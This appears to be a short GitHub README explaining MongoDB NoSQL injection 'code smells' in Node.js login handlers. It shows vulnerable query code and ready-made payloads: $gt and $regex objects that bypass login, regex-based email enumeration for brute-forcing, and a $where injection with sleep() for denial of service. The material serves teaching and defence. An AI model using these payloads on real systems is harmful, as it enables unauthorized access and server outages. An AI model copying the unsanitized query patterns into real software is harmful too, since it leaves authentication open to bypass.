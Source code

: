 

### MONGODB INJECTION VULNERABILITY CODE SMELLS LIKE BELOW

##### check for this nosqlinjector tool
https://github.com/blessingcharles/nosqlInjector/

## if you check login like this without encrypting password we are in
```js
    const {email , password} = req.body

        if(!email || !password) return res.json({error : "invalid data"})

        let identifyUser ;

        try{
            identifyUser = await userModel.findOne({email:email,password:password})
        }
        catch(err){
            return res.json({error : "something went wrong"})
        }

        
        if(identifyUser){

            //generate token other stuffs
            return res.json({msg:"you hacked it"})
        }

```
## INJECTION VALUES
```json
        {
            "email":{
                "$gt":""
            },
            "password":{
                "$gt":""
            }
        }


        {
            "email":{
                "$regex":".*"
            },
            "password":{
                "$gt":""
            }
        }
 ```
[lack of proper sanitization may lead to leverage in lots of authorization issues]

### eventhough you encrypt your password and store , attacker can use regex to validate the name and bruteforce the password

        [codeSNIPPETS]
```js
            try{
                identifyUser = await User.findOne({email:email})
            }
            catch(err){
                const error = new httpError('try again later',500)
                return next(error);
            }
            //decoding the password and comparing
            let isPasswordValid = false
            try{
            isPasswordValid= await bcrypt.compare(password,identifyUser.password)
            }catch(err){
                let error = new Error('failed to login user');
                error.code = 400
                return next(error)
            }
```
```json
        INJECTION VALUE

        {
            "email":{
                "$regex":"t.*"
            },
            "password":"thomas"
        }

```

#### use of where clause leads to usage of many functions like sleep leads to dos of the server

```js
        let {email , password} = req.body

        if(!email || !password) return res.json({error : "invalid data"})

        let identifyUser ;

        console.log(email)
        
        const query = {$where:"this.email == '"+email+ "' "}
        
        console.log(query)

         //  {$where:"this.email == '' ; sleep(5000);''"}

        try{
            identifyUser = await userModel.findOne(query)
        }
        catch(err){
            console.log(err)
            return res.json({error : "something went wrong"})
        }
```

## injecting value
```json
    {
        "email":"';sleep(50000);'",
        "password":"thomas"
    }
```


